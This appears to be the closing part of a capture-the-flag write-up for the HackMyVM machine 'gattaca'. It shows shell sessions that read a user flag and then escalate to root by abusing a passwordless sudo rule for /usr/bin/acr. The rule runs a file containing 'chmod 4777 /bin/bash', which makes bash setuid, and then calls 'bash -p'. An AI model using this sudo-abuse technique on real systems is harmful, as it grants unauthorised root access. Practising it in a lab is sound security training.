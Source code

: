 ```
su i.cassini
Password:

whoami
i.cassini
```

```
cat /home/i.cassini/user.txt

d3eca2e0a0755197605edc2eaa6be710 🚩
```

**Linux Privilege Escalation**

```
sudo -l

[SNIP]

User i.cassini may run the following commands on gattaca:
    (ALL : ALL) NOPASSWD: /usr/bin/acr
```

```
/usr/bin/acr -h

acr: Usage '/usr/bin/acr' [-flags] [file] [args]
  -d         runs in debug mode.
  -D         creates the distribution tarball.
  -e         embed configure.acr into final script as comment.
  -h         show this help.
  -m         generate main Makefile.acr file.
  -n         do not generate the final configure script. (parse only)
  -o [file]  output file (default: configure).
  -p         show progress bar.
  -r         recovery mode. (runs acr-cat)
  -s         strip default code generation.
  -v         show version information.
  -w [num]   cats the configure.acr highlighting the [num] word.
  -x         execute the script directly."

cd /tmp/

touch Makefile && chmod +x Makefile

echo "chmod 4777 /bin/bash" > Makefile

sudo /usr/bin/acr -r Makefile

bash -p

whoami
root
```

```
cat /root/root.txt

bd1061ef36aca528a49f69c00f1feb66 🚩
```

<img src="https://hackmyvm.eu/img/correctflag.png" alt="Machine Hacked!" width="150"/>

---
---
